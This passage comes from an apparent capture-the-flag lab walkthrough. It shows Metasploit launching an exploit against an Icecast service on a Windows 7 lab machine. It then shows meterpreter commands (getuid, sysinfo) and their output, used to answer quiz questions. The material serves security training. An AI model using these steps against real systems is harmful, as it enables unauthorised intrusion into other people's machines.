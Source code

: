 ```

Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.


msf6> exploit

```

## Task 4 - Escalate

### Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

Ans> 
meterpreter

### What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module.

```
meterpreter > getuid 
Server username: Dark-PC\Dark
meterpreter > 

```

Ans> 

dark

### What build of Windows is the system?

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 


```
